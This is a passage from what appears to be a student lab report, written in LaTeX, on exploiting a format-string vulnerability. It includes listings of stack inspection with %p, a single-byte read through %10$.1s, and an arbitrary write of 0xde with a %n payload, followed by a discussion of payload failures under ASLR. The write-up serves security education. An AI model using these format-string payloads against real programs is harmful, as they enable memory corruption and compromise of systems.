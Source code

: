 Finally, after applying the same technique to create the address of secret[1] in the first four bytes of \emph{user\_input}, the second half of the payload used in Task 1 part (d) can be reused. Parts (c) and (d) are achieved as shown in .

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Stack inspection to find the start of user\_input},
label={lst:l1_t2_insp},
language=,
frame=single]
...
Please enter a string
RIPPAAAA,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
RIPPAAAA,0xbffff678,0x8,0xb7eb8309,0xbffff69f,0xbffff69e,
(nil),0xbffff784,0xbffff724,0x804b020,0x50504952,0x41414141,
0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c702
...
\end{lstlisting}
\end{minipage}

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Little-endian conversion and reading one byte},
label={lst:l1_t2_le_pb},
language=,
frame=single]
...
secret[1]'s address is 0x 804b024 (on heap)
Please enter a string
\x24\xb0\x04\x08<%10$.1s>
$<U>
...
\end{lstlisting}
\end{minipage}

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Writing value 0xde to secret{$[1]$}},
label={lst:l1_t2_le_pcd},
language=,
frame=single]
...
secret[1]'s address is 0x 804b024 (on heap)
Please enter a string
\x24\xb0\x04\x08%218.0s%10$n
$
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0xde
\end{lstlisting}
\end{minipage}

\subsection{Task 3}
\subsubsection{Part (a) Redo Task 2 with ASLR turned on}
When ASLR is turned on, we see that the payloads documented in Task 2 fail about half of the time. After some analysis, we identified that some bytes were not being delivered properly to the memory as raw bytes. For example, \emph{0x09} (tab, or '{\textbackslash}t'), gets interpreted and removed by \emph{printf()} and does not set the memory correctly. These "bad bytes" from ASLR's address randomisation seem to be the culprit causing the payload failures.


